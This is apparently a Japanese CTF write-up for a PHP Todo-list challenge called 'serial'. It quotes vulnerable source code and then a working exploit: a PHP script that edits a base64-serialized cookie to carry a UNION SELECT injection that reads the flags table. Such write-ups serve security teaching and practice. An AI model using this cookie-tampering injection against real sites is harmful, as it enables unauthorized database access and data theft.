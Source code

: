# serial

Todoリストを作成するアプリ

SQL絡んでそうなdatabase.phpを見るとfindUserByNameがprepared statementを使っていないためSQLインジェクションできそうなことがわかる

```php
/**
 * findUserByName finds a user from database by given userId.
 *
 * @deprecated this function might be vulnerable to SQL injection. DO NOT USE THIS FUNCTION.
 */
public function findUserByName($user = null)
{
    if (!isset($user->name)) {
        throw new Exception('invalid user name: ' . $user->user);
    }

    $sql = "SELECT id, name, password_hash FROM users WHERE name = '" . $user->name . "' LIMIT 1";
    $result = $this->_con->query($sql);
    if (!$result) {
        throw new Exception('failed query for findUserByNameOld ' . $sql);
    }

    while ($row = $result->fetch_assoc()) {
        $user = new User($row['id'], $row['name'], $row['password_hash']);
    }
    return $user;
}
```

findUserByNameをどこで使っているのか見るとsignup.phpとuser.phpで使用されていることがわかる

signup.phpでは、user登録されたのちにfindUserByNameで実際に登録されているか確認している

```php
$name = $_POST['name'];
$pass = password_hash($_POST['pass'], PASSWORD_DEFAULT);
$user = new User(-1, $name, $pass);

try {
    $db = new Database();
    $db->insertUser($user);

    $user = $db->findUserByName($user);
    if (!$user->isValid()) {
        throw new Exception("invalid user: " . $user->__toString());
    }
} catch (Exception $e) {
    var_dump($e->getMessage());
}

setcookie("__CRED", base64_encode(serialize($user)));
```

そのため、userにSQL injectionを行えばinjectionできそうだったが、Userクラスでエスケープされてしまっていた

```php
public function __construct($id = null, $name = null, $password_hash = null)
{
    $this->id = htmlspecialchars($id);
    $this->name = htmlspecialchars(str_replace(self::invalid_keywords, "?", $name));
    $this->password_hash = $password_hash;
}
```

しかし、見返すとsignup.phpの最後にて`setcookie("__CRED", base64_encode(serialize($user)));`userをシリアライズしてbase64エンコードしたものをcookieに保存していることがわかった。

また、ログインにも用いられており、

1. cookieに保存されている情報をデシリアライズ
2. デシリアライズしたものをfindUserByNameを用いてuserが登録されているか確認
3. cookieに保存されていたものとfindUserByNameで返ってきたuserのpasswordが一致していればcookieにfindUserByNameで返ってきたuserをシリアライズ、エンコードし保存

という流れになっている。

```php
function login()
{
    if (empty($_COOKIE["__CRED"])) {
        return false;
    }

    $user = unserialize(base64_decode($_COOKIE['__CRED']));

    // check if the given user exists
    try {
        $db = new Database();
        $storedUser = $db->findUserByName($user);
    } catch (Exception $e) {
        die($e->getMessage());
    }
    // var_dump($user);
    // var_dump($storedUser);
    if ($user->password_hash === $storedUser->password_hash) {
        // update stored user with latest information
        // die($storedUser);
        setcookie("__CRED", base64_encode(serialize($storedUser)));
        return true;
    }
    return false;
}
```

cookieに保存されているものは書き換えることができるので、cookie情報を上書きしてしまえばSQL injectionができてしまえそうだと推測。

よって、まずは適当なuser名とpasswordでログイン

その後、cookie情報を手元でデコード、デシリアライズし、nameを上書きする。

具体的には以下のコードを用いた

```php
class User
{
    private const invalid_keywords = array("UNION", "'", "FROM", "SELECT", "flag");

    public $id;
    public $name;
    public $password_hash;

    public function __construct($id = null, $name = null, $password_hash = null)
    {
        $this->id = htmlspecialchars($id);
        $this->name = htmlspecialchars(str_replace(self::invalid_keywords, "?", $name));
        $this->password_hash = $password_hash;
    }

    public function __toString()
    {
        return "id: " . $this->id . ", name: " . $this->name . ", pass: " . $this->password_hash;
    }

    public function isValid()
    {
        return isset($this->id) && isset($this->name) && isset($this->password_hash);
    }
}
$a = "Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjQ6IjEyMTkiO3M6NDoibmFtZSI7czo4OiJob2dlaG9nZSI7czoxMzoicGFzc3dvcmRfaGFzaCI7czo2MDoiJDJ5JDEwJE90Z3pDQmVQcVFCMU5GTXFFUmI1V3VMNXNoaWg2am9PL21KZ0Z2aE1TVVdPR3BjNzJ5NlI2Ijt9";
$a_obj  = unserialize(base64_decode($a));
$a_obj->name = "' union select 1, body, concat('\$2y\$10\$OtgzCBePqQB1NFMqERb5WuL5shih6joO/mJgFvhMSUWOGpc72y6R6') from flags #";
print(serialize($a_obj));
```

cookieを上書きして更新したのち、再度cookieをデコードするとflagが書き込まれている
